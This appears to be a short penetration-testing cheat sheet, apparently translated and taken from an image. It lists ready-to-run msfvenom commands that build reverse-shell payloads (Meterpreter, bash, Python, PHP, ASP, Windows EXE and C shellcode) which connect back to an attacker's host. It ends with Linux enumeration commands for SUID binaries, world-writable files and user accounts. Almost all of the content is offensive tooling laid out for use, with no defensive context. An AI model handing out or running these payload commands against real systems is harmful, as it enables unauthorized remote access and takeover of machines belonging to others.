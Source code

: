 #### MSF generates the Meterpreter Shell that bounces under Linux

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -f elf -a x86 –platform linux -o shell

#### MSF build bounce Shell (C Shellcode)

    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b “\x00\x0a\x0d” -a x86 –platform win -f c

#### MSF generates a bounce Python Shell

    msfvenom -p cmd/unix/reverse_python LHOST=127.0.0.1 LPORT=443 -o shell.py

#### MSF builds rebound ASP Shell

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp -a x86 –platform win -o shell.asp

#### MSF generates bounce shells

    msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.sh

#### MSF build bounces PHP Shell

    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -o shell.php
    add <?php at the beginning
    perl -i~ -0777pe’s/^/<?php \n/’ shell.php

#### MSF generates bounce Win Shell

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -a x86 –platform win -o shell.exe

#### Linux commonly used security commands

    find / -uid 0 -perm -4000

    find / -perm -o=w

    find / -name ” ” -print
    find / -name “..” -print
    find / -name “. ” -print
    find / -name ” ” -print

    find / -nouser

    lsof +L1

    lsof -i

    arp -a

    getent passwd
